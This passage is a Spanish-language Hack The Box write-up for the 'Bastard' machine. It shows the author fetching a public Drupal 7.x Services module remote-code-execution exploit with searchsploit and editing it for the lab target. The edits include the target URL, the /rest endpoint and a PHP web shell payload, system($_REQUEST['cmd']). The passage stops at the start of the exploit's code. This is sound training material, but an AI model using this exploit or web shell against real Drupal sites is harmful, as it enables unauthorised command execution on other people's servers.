Vemos un recurso interesante **Drupal 7.x Module Services - Remote Code Execution**, así que lo tratemos a nuestro entorno de trabajo, le modificamos el nombre a uno más descriptivo y procedemos a analizarlo.

```bash
❯ cd ../content/
❯ searchsploit -m php/webapps/41564.php
  Exploit: Drupal 7.x Module Services - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/41564
     Path: /usr/share/exploitdb/exploits/php/webapps/41564.php
File Type: ASCII text, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/Bastard/content/41564.php


❯ ll
.rw-r--r-- root root 8.5 KB Thu Oct  7 00:40:03 2021  41564.php
❯ mv 41564.php drupal_rce.php
```

Analizando el exploit, vemos que necesitamos realizarle unos cambios para que se adapte a lo que estamos buscando:

- `$url = 'http://vmweb.lan/drupal-7.54'` lo cambiamos por `$url = 'http://10.10.10.9'`.
- `$endpoint_path = '/rest_endpoint'` si validamos el recurso, vemos que no existe; sin embargo, pensando un poco, vemos que busca el recurso `/rest_endpoint`, así que podríamos buscar por `/rest` el cual si existe.

![](/assets/images/htb-bastard/bastard-rest.png)

- Vemos que el exploit define un nombre archivo el cual va a ser subido para inyectar nuestro código malicioso `'filename' => 'dixuSOspsOUU.php',`; aquí podriamos ponerle el nombre que nosotros queramos, como por ejemplo ***k4mishell.php***.
- A nivel de data, se tiene esto `'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'`; sin embargo, nosotros queremos utilizar una variable para poder ejecutar comandos; así que lo modificamos por `'data' => '<?php system($_REQUEST["cmd"]); ?>'`.

Realizando las modificamos, tenemos lo siguiente:

```php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
<?php
# Drupal Services Module Remote Code Execution Exploit
# https://www.ambionics.io/blog/drupal-services-module-rce
# cf
#
# Three stages:
# 1. Use the SQL Injection to get the contents of the cache for current endpoint
#    along with admin credentials and hash
# 2. Alter the cache to allow us to write a file and do so
# 3. Restore the cache
# 

# Initialization

```